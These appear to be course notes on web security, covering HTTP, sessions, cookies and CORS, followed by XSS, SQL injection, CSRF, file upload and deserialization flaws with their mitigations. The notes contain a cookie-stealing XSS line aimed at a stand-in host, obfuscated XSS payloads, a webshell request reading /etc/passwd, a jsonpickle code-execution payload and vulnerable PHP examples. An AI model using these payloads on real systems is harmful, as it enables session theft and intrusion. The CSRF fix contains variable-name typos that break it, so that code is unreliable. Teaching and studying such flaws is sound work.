

(Links:: [[Secure Programming]])
- Web Security relates to web applications
	- Client-server applications
	- Using web standards such as URLs, HTTP/HTTPS, HTML, and Javascript
	- Including both user-visible HTML pages and web service APIs
# Web applications 101
- Protocol for **client** to obtain files from **server**
- Protocols define interactions between computers over network so they can understand each other
- Builds on top of other Internet protocols  
	- Ethernet/Wifi transport **packets** between directly connected hosts
	- IP routes packets through multiple hosts to reach a specific **address**
	- TCP sets up reliable **connection**  
	- DNS converts **hostnames** (google.com) to addresses (172.217.17.142)

Erik wants to visit: https://www.youtube.com/watch?v=QH2-TGUlwu4
- Resource consists of path (/watch) and query (?v=QH2-TGUlwu4)
## HTTP Request
- Request consists of header and body (optional), separated by empty line
- Header specifies  
	- Method (GET, POST, ...)  
	- Resource (e.g., /hypertext/doc.html)  
	- Protocol version (HTTP/1.0, HTTP/1.1, HTTP/2, HTTP/3)
	- Hostname of server  
	- Other info
- Body is a byte stream, possibly compressed

> [!example]-
> ```
> GET /search?q=nyan HTTP/3  
> Host: www.google.com  
> User-Agent: Mozilla/5.0 (Windows NT 10.0; ... 
> Cookie: AEC=AakniGMS...; 
> CONSENT=PENDING+765;... 
> Referer: https://www.google.com/search
> ```
### Methods
- GET requests resource  
	- Load HTML page, script, image, ...
	- API call that does not change persistent state 
	- ...
- POST asks resource to process provided data
	- Form data submission  
	- File upload  
	- API call to store/change data
	- ...  
- Others less relevant for this course
## HTTP Response
- Request consists of header and body (optional), separated by empty line
- Header specifies  
	- Protocol version (HTTP/1.0, HTTP/1.1, HTTP/2, HTTP/3)
	- Status code  
	- Diagnostic text  
	- Content type (HTML, script, image, text, binary, ...)  
	- Other info
- Body is a byte stream, possibly compressed

> [!example]-
> ```
> HTTP/2 200 OK  
> content-type: text/html; charset=UTF-8 
> date: Sun, 27 Nov 2022 14:57:21 GMT 
> content-encoding: br  
> server: gws
> 
> (encoded response body)
> ```

| Success            | Failure           |
| ------------------ | ----------------- |
| 1xx: informational | 4xx: client error |
| 2xx: success       | 5xx: server error |
| 3xx: redirection   |                   |
## [[HTTPS]]
- HTTP sends everything in plaintext
	- Anyone eavesdropping on communication can read: 
	  ISPs, network administrators, government agencies, hackers, ...
	- Easy to impersonate server (man-in-the-middle)
- HTTPS uses HTTP on top of [[Secure Sockets Layer|SSL/TLS socket]]
	- All traffic encrypted (guarantees confidentiality and integrity)  
	- Server authenticated with X5.09 certificate (prevents man-in-the-middle)
- HTTPS has become the norm, plain HTTP the exception  
	- Always use HTTPS  
	- Security still depends on trustworthiness of certification authorities

Server Side  | Client Side
------------ | -------------
 Write code to process request and build response (runs within web server: Apache httpd, MS IIS, nginx,...) | Executes code in browser
 C# (ASP.NET), Java (enterprise environment), PHP, Python (Django), Ruby on Rails | Common Programming model: Web page is updated with data retrieved from web services on server asynchronously ([[AJAX]])
 Common Gateway Interface (CGI) allows programs written in any language to generate web pages, but is less efficient as it creates process for each request | Languages are restricted by browser support

# Session Management
HTTP is a **stateless** protocol since each request/response is independent from each other, and the server cannot distinguish clients from requests. However, many servers require this when a user logs in and accesses private data, or when keeping track of shopping cart items.
- Tracking state achieved using **sessions** (handled by framework)
- Each session is identified by a **session identifier**
	- Server assigns session identifier on first request from user
	- Client sends session identifier with subsequent requests
## Session Security
- Authentication assigns rights to a session
- Authorization based on rights assigned to session
- Session identifier is critical for security  
	- Leaking or guessing session identifier allows session hijacking  
	- Some of most dangerous web attacks revolve around session abuse
- Must keep session identifier safe  
	- Random, with sufficient entropy (hard to guess/brute force)
	- Never send over an insecure connection  
	- Never send to another website
- Session keys are stored through [[Cookies]]
## Cookies
- Short texts stored by client, typically key-value pairs
	- Set by server in `Set-Cookie` response header
	- Returned by client in `Cookie` request header for subsequent requests
- Only returned to the same web site
- Cookies are configured by the server
	- Life time: session only or specific expiry date
	- Scope: can include subdomains or restrict to specific paths
	- Security: can prohibit sending over insecure connection or reading from script

> [!example]-
> # Cookies on the server side
> ## First Request
> ```
> GET /cookie-php.php HTTP/1.1 
> Host: localhost:1234
> 
> HTTP/1.1 200 OK  
> Host: localhost:1234  
> Set-Cookie: sessionid=68b329da9893e340
> Content-type: text/html; charset=UTF-8
> 
> <html><body>
> <p>Cookie is: </p>
> </body></html>
> ```
> ## Second Request
> ```
> GET /cookie-php.php HTTP/1.1 
> Host: localhost:1234  
> Cookie: sessionid=68b329da9893e340
> 
> HTTP/1.1 200 OK  
> Host: localhost:1234  
> Content-type: text/html; charset=UTF-8
> 
> <html><body>  
> <p>Cookie is: 68b329da9893e340</p>
> </body></html>
> ```
## Same Origin Policy
HTML pages can include external scripts (from multiple sources), and this is very common to see.
- All script files loaded in a frame operate in the same context
	- Can interact between local and external code, with same privileges as local code
	- Can interact with browser using Browser Object Model (BOM) (`window` object)
	- Can read and modify page using Document Object Model (DOM) (document object)
	- Can interact with remote servers using `XMLHttpRequest` object
- Scripts can obtain sensitive data, such as session cookie (`document.cookie`)
- Same Origin policy: scripts can only access resources from the same domain
	- Domain is linked to the HTML page, regardless of script origin
## Cross Origin Resource Sharing (CORS)
- Same origin policy can be too restrictive when building web application across domain names
- CORS allows cross-domain requests if approved by server
	- Request has "Origin" header on cross-domain requests
	- Response only passed to script with "Access-Control-Allow-Origin" header that allows the origin

> [!example]+ CORS Example
> # http://localhost:1234/cors.html
> ```html
> <html>
> 	<head>
> 		<script>  
> 		var req = new XMLHttpRequest();  
> 		req.open("GET", "http://localhost:1235/cors.php");  
> 		req.onerror = function() { document.body.innerText = "CORS error"; }
> 		req.onreadystatechange = function() {  
> 			if (req.readyState == XMLHttpRequest.DONE) {
> 				document.body.innerText = "Response: " + req.responseText;
> 			}
> 		}
> 		req.send();  
> 		</script>
> 	</head>
> 	<body>
> 	Loading...  
> 	</body>
> </html>
> ```
> # http://localhost:1235/cors.php
> ```php
> <?php  
> header("Access-Control-Allow-Origin: http://localhost:1234");
> header("Content-Type: text/plain");  
> echo("Origin: " . $_SERVER['HTTP_ORIGIN']);  
> ?>
> ```
> ![[CORS php example.png|500]]
## Session Fixation Attack
1. Attacker creates session on server
2. Attacker sends link to target, referring to server with session id
3. Target follows link and opens server site in session known by Attacker
4. Target authenticates with server
5. Attacker has access to an authenticated session, can can impersonate target

- [Mitigations](https://owasp.org/www-community/controls/Session_Fixation_Protection):
	- Store the session id in cookie, not as a GET or POST parameter
	- Invalidate session id on authentication
	- Do not allow client to pick session id

# Web Vulnerabilities
## Cross-Site Scripting (XSS)
> [!question]+ Find the Vulnerability
> ```php
> <?php
> 	$sessionid = $_COOKIE["sessionid"];
> 	if (!$sessionid) {
> 		header("Location: login.php");
> 		exit();
> 	}  
> 	$messages = db_get_chat_messages_for_user($sessionid);
> ?>
> 
> <html>
> 	<body>
> 		<p>Your messages:</p>
> 		<?php
> 			foreach ($messages as $message) {
> 				echo("<p>" . $message . "</p>");
> 			}
> 		?>  
> 	</body>
> </html>
> ```
> > [!info] Solution
> > Possible attack:
> > ```html
> > <script>new Image().src= "http://example.com/cookiemonster.php?"+document.cookie;</script>
> > ```
> > - Message stored in database unmodified
> > - Message retrieved from database and returned by `db_get_chat_messages_for_user`
> > - Message printed into HTML document
> > - Browser executes \<script> tag contents
> > - Session cookie sent to http://example.com/cookiemonster.php

Root cause of XSS: improper escaping/validation. This allows the attacker to violate same origin policy.

### Reflected XSS 
**Attack Backend**:
```php
<html> <body>
	$id = $_GET["id"];  
	$story = get_story_by_id($id);
	if ($story) {
		echo($story);
	} else {
		echo("bad story id: $id");
	}
</body> </html>
```
**Client-side**:
```html
<html><body>
	<script>
	var params = new URLSearchParams(document.location.search);
	var id = params.get("id");  
	var story = get_story_by_id(id);  
	if (story) {
		document.write(story); 
	} else {
		document.write("bad story id: " + id);
	}  
	</script>
</body></html>
```
- Attacker HTML included in web page from request
- Typically in URL parameters or POST data  
- Often included in error message

- Target needs to follow a crafted link
### Stored XSS
- Attacker supplies exploit input beforehand
- Attacker HTML included in web page from database (often user-generated content)
- any visitor can be a target

| Reflected | Stored | DOM-based
----------|--------|----------
attacker HTML included in web page from request | Attacker supplies exploit input beforehand | Attacker HTML not included in the client side.

### Payloads
```
Filtering script tags is not enough

<span onmouseover="alert('gotcha!')">XSS example</span> Interaction is not needed even without script tags

 Payload can be obfuscated

 Payload can be obfuscated beyond recognition

Javascript URLs restricted on modern browsers

Data URLs restricted on modern browsers

<meta http-equiv="refresh" content="0;url=data:text/html; base64,PHNjcmlwdD5hbGVydCgnZ290Y2hhJ21ha2UpPC9zY3JpcHQ+Cg==">
```
## SQL Injection
```php
 <html><body><?php
	$db = mysqli_connect($mysql_host, $mysql_user, $mysql_password, $mysql_db);
	if ($db === false) die(mysqli_connect_error());
	$query = "SELECT * FROM user WHERE name='" . $_GET["u"] . "' AND password='" . $_GET["p"] . "'"; 
	$result = mysqli_query($db, $query);  
	if ($result === false) die(mysqli_error($db));  
	if (mysqli_num_rows($result) > 0) {
		echo("super secret info for authenticated users");
	} else {  
		echo("authentication failed");
	}  
	mysqli_free_result($result);  
	mysqli_close($db);  
?></body></html>
```
- Often blink: experiment with inputs and observe response
	- The more detail in error message, the easier
- Use `-- ` followed by space to escape rest of query
	- Some DBMs offer additional comment markers
- Leaking data with vulnerable `SELECT` queries
	- `OR 1=1` retrieves all records (in attacker-controlled `WHERE` clause)
	- `UNION` clause retrieves data from additional tables
- Additional queries can sometimes be added using `;`
- More exploitation patterns: https://www.websec.ca/kb/sql_injection
### Mitigations
- Do not trust inputs from any source in SQL code
	- Exploit strings may be stored in DB, provided earlier by attacker (known as second order SQL injection)
	- Never build SQL queries by concatenation
- Mitigations discussed in [[SP Conservative Programming]]
	- Escaping is hard to get right
	- Prepared statements and stored procedures
## Cross-Site Request Forgery (CSRF)

```php
// list.php
<html>
	<head>
		<style>
			img { width: 250px; }
		</style>
	</head>
	<body><?php  
		$db = mysqli_connect($mysql_host, $mysql_user, $mysql_password, $mysql_db);
		
		if ($user = get_auth_user($db, $_COOKIE["sessionid"])) { 
			echo('<p>hi, ' . htmlspecialchars($user) . '</p>');
		}  
		$query = "SELECT name, pic FROM user ORDER BY name";
		$result = mysqli_query($db, $query);  
		while ($row = mysqli_fetch_row($result)) {  
			echo('<a href="profile/' . htmlspecialchars($row[0]) . '">' . '</a>');  
		}  
	?></body>
</html>
```
```
mysql> SELECT * FROM user; 
+-----------+------------+----------------------------------------------------------+
| name      | password   | pic                                                      | 
+-----------+------------+----------------------------------------------------------+ 
| erik      | hunter2    | https://www.vusec.net/.../kouwe.jpg                      | 
| herbert   | bos-attack | https://www.vusec.net/.../herbert-bos-avatar.png         | 
| cristiano | qwerty     | https://www.vusec.net/.../cristiano-giuffrida-avatar.png | 
+-----------+------------+----------------------------------------------------------+
```
```php
// setpic.php
<html><head>
	<style>
		#pic { width: 600px; }
	</style>
	</head>
	<body><?php  
		$db = mysqli_connect($mysql_host, $mysql_user, $mysql_password, $mysql_db);
	if ($user = get_auth_user($db, $_COOKIE["sessionid"])) {
		echo('<p>hi, ' . htmlspecialchars($user) . '</p>');
		if ($pic = $_GET["pic"]) {
			$stmt = mysqli_stmt_init($db);
			mysqli_stmt_prepare($stmt, "UPDATE user SET pic=? WHERE name=?");
			mysqli_stmt_bind_param($stmt, "ss", $pic, $user);
			mysqli_stmt_execute($stmt);
			echo("<p>updated profile picture</p>");
		}
	}
	?>
	<form method="get">
		<p>Picture: <input name="pic" id="pic" type="text" /></p>
		<p><input type="submit" /></p>
	</form>
	</body>
</html>
```
If we set our profile picture to `setpic.php?pic=https://www.vusec.net/.../cropped-vusec.png`, when another user visits the webpage, list.php will execute the request with their session cookie, changing the users image.
```
After setting own image
mysql> SELECT * FROM user; 
+-----------+------------+------------------------------------------------------------+
| name      | password   | pic                                                        | 
+-----------+------------+------------------------------------------------------------+ 
| erik      | hunter2    | setpic.php?pic=https://www.vusec.net/.../cropped-vusec.png | 
| herbert   | bos-attack | https://www.vusec.net/.../herbert-bos-avatar.png           | 
| cristiano | qwerty     | https://www.vusec.net/.../cristiano-giuffrida-avatar.png   | 
+-----------+------------+------------------------------------------------------------+
```
```
After user logins in
mysql> SELECT * FROM user; 
+-----------+------------+------------------------------------------------------------+
| name      | password   | pic                                                        | 
+-----------+------------+------------------------------------------------------------+ 
| erik      | hunter2    | setpic.php?pic=https://www.vusec.net/.../cropped-vusec.png | 
| herbert   | bos-attack | https://www.vusec.net/.../cropped-vusec.png                | 
| cristiano | qwerty     | https://www.vusec.net/.../cristiano-giuffrida-avatar.png   | 
+-----------+------------+------------------------------------------------------------+
```
- Browser unintentionally makes request on behalf of logged in user
- Hard to prevent even with proper escaping
- Requirements
	- Attacker can get target to visit a URL
	- Visiting URL is sufficient to change persistent state (leaks are **not possible** with CSRF)
### Non-Stored CSRF
- Example shows stored CSRF  
	- Link is accessed from website itself
- CSRF attack works from any website
	- Cookie sent based on requested URL  
	- Very hard to prevent
- Non-stored CSRF is less powerful  
	- Need another way to get user to access link
	- User is less likely to be authenticated
- CSRF from another website offers more control  
	- If user visits our website, we can automatically submit POST form
- Example of **confused deputy attack**
	- Deputy (browser in this case) is allowed to act on behalf of user
	- Attacker tricks deputy into performing operation user does not want (request to website in this case)
- Common pattern for many attacks
### Mitigations
- Require HTTP POST request for each operation that can change state
	- Normal resource load request use GET
	- Does not prevent all cases
- Add random token to each state changing operation and check it
	- Forged requests will not have correct token
```php
// setpic.php
<html><head>
	<style>
		#pic { width: 600px; }
	</style>
	</head>
	<body><?php  
		$db = mysqli_connect($mysql_host, $mysql_user, $mysql_password, $mysql_db);
	if ($user = get_auth_user($db, $_COOKIE["sessionid"])) {
		echo('<p>hi, ' . htmlspecialchars($user) . '</p>');
		if (($pic = $_POST["pic"]) && ($sessionio == $_POST["sessoinid"])) {
			$stmt = mysqli_stmt_init($db);
			mysqli_stmt_prepare($stmt, "UPDATE user SET pic=? WHERE name=?");
			mysqli_stmt_bind_param($stmt, "ss", $pic, $user);
			mysqli_stmt_execute($stmt);
			echo("<p>updated profile picture</p>");
		}
	}
	?>
	<form method="get">
		<p>Picture: <input name="pic" id="pic" type="text" /></p>
		<p><input type="submit" /></p>
	</form>
	</body>
</html>
```
## Unrestricted File Uploads
```php
<html><body>
	<?php  
	function badchar($c) { 
		return ctype_cntrl($c) || ($c == '/'); 
	}
	function sanitize($s) {
		$out = "";
		for ($i=0;$i<strlen($s);$i++){ 
			$out .= badchar($s[$i]) ? '_' : $s[$i]; 
		}
		return $out;
	}  
	if ($file = $_FILES['file']) {
		$filename = "uploaded/" . sanitize($file['name']);
		$success = move_uploaded_file($file['tmp_name'], $filename);
		echo("file upload " . ($success ? "success" : "failure"));
	}
	?>
	<form method="post" enctype="multipart/form-data">
		<p>File to upload: <input type="file" name="file" /></p>
		<p><input type="submit" /></p>
	</form>
</body></html>
```
By uploading a php file, we can access and execute it: `localhost:1234/uploaded/exploit.php?cmd=cat/etc/passwd`
- Problem: file extension determines interpretation
	Uploaded files unexpectedly executed on server
- Mitigation: sanitize file names
	- Only allowed expected file extensions
	- Also be careful to avoid path traversal

If there is a vulnerability, and you cannot find the code (if the code base is large), you should try and mitigate the amount of damage an attacker can do to a system when exploiting a vulnerability:
- Web server configuration
	- Allow only specific directories for script execution
	- Disallow writes to script directories
- Apply principle of least privilege using operating system
	- Configure web server to run with minimum privileges
	- Configure minimal required file system permissions for web server
	- Note: execute bit may be ignored on scripts if interpreted by web server
## Deserialization of Untrusted Data
- In object-oriented languages, it is often useful to convert objects into data and vice versa
	- Store object on disk  
	- Send object over network

- Many languages offer serialization facilities out-of-the-box  
	- Very convenient, for example to implement remote procedure calls

> [!example]
> ```python
> #!/usr/bin/env python3
> import jsonpickle  
> 
> class Example:
> 	def __init__(this):  
> 		this.array = [ 1, 2, 3 ] 
> 		this.string = "hello world" 
> 		this.tuple_ = ( this, this.array )
> 
> example = Example()
> pickle = jsonpickle.encode(example)
> print(pickle)
> example2 = jsonpickle.decode(pickle)
> ```
> ```json
> { 
> 	"py/object": "__main__.Example", 
> 	"array": [1, 2, 3 ],  
> 	"string": "hello world", 
> 	"tuple_": {
> 		"py/tuple": [
> 		  { "py/id": 0 },
> 		  { "py/id": 1 }
> 		]
> 	}
> }
> ```

Serialized Objects are supported by and can be converted into many languages (JSON, SOAP, YAML,...), but it can also be language specific (custom binary representation, custom JSON-based representations).
If we pick a specific pickle (the data to be serialized/deserialized), we can execute arbitrary code.
```json
{
	"py/reduce": [
		{ "py/type": "subprocess.Popen" },
		{ "py/tuple": ["ls"]
	]
}
```
To deserialize the object, it calls `subprocess.Popen` constructor with argument "`ls`". There are multiple ways to *mitigate* this:
- Deserialization can result in arbitrary code execution
	- Do not deserialize untrusted data
	- For trusted data, use signature to verify origin
- Approaches that limit the types accepted may still be safe
	- JSON only supports a few basic types, and is safe
		- Does not hold for custom implementations with more features, like JsonPickle
	- SOAP implementations can verify that types correspond to expected types for the interface, and can be used safely

# Other Web Vulnerabilities
- Server-Side Request Forgery (SSRF)
	- Attacker can get server to access an arbitrary URL
	- Used to access local servers (behind firewall) or local files
	- Mitigation: avoid or sanitize user-controlled URLs with allowlist
- XML External Entity (XXE)
	- XML documents can contain references to external URLS
	- Similar to SSRF, but in XML parser
	- Mitigations: configure XML parser to prevent external downloads
- Open redirect
	- Attacker can get server to redirect clients to external website
	- Used for phishing (get users to enter credentials on fake website)
	- Mitigation: avoid or sanitize user-controlled redirects with allowlist


---
References: